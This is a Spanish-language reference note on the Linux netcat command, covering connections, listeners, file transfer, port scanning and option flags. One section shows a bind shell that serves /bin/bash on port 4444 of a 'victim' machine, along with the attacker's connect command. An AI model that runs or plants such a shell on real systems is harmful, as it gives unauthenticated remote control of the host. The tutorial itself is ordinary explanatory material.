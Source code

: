 #Comando #SistemaOperativo #Linux #Editar #Conexión #Redes #Archivos #Software 
# Comando `netcat` (`nc`) en [[Linux]]

## ¿Qué es `netcat`?

`netcat` (`nc`) es una herramienta de línea de comandos que permite leer y escribir datos a través de conexiones de red utilizando los protocolos [[TCP]] y [[UDP]]. Se usa comúnmente para:

- Diagnóstico y depuración de redes.
- Transferencia de archivos.
- Creación de servidores y clientes simples.
- Escaneo de puertos.

## Sintaxis

```sh
nc [opciones] [host] [puerto]
```

## Uso Básico

### 1. Conectarse a un Servidor TCP

```sh
nc ejemplo.com 80
```

Abre una conexión TCP al puerto 80 de `ejemplo.com`.

### 2. Crear un Servidor TCP

```sh
nc -l -p 1234
```

Escucha conexiones entrantes en el puerto `1234`.

### 3. Enviar un Mensaje entre Dos Máquinas

En la máquina receptora:

```sh
nc -l -p 1234
```

En la máquina emisora:

```sh
echo "Hola desde el cliente" | nc IP_DEL_SERVIDOR 1234
```

### 4. Transferir un Archivo

En la máquina receptora:

```sh
nc -l -p 1234 > archivo_recibido.txt
```

En la máquina emisora:

```sh
nc IP_DEL_SERVIDOR 1234 < archivo.txt
```

## Escaneo de Puertos

Para verificar si un puerto está abierto en una máquina:

```sh
nc -z -v IP_OBJETIVO 80
```

Para escanear un rango de puertos:

```sh
nc -z -v IP_OBJETIVO 20-1000
```

## Crear una Shell Remota

Desde la máquina víctima (con acceso):

```sh
nc -l -p 4444 -e /bin/bash
```

Desde la máquina atacante:

```sh
nc IP_VÍCTIMA 4444
```

⚠️ **Nota:** Esto puede ser usado de forma maliciosa, por lo que se debe tener precaución al permitir conexiones entrantes.

## Opciones Comunes

|Opción|Descripción|
|---|---|
|`-l`|Escucha conexiones entrantes (modo servidor).|
|`-p`|Especifica el puerto a usar.|
|`-v`|Muestra información detallada de la conexión.|
|`-z`|Escaneo de puertos sin enviar datos.|
|`-e`|Ejecuta un programa después de establecer la conexión.|
|`-u`|Usa el protocolo UDP en lugar de TCP.|

## Consideraciones

- `netcat` es una herramienta poderosa y debe usarse con responsabilidad.
- No cifra los datos enviados, por lo que no es seguro para información sensible.
- Se recomienda usar `ncat` (versión más segura de `netcat` incluida en `nmap`) para conexiones cifradas.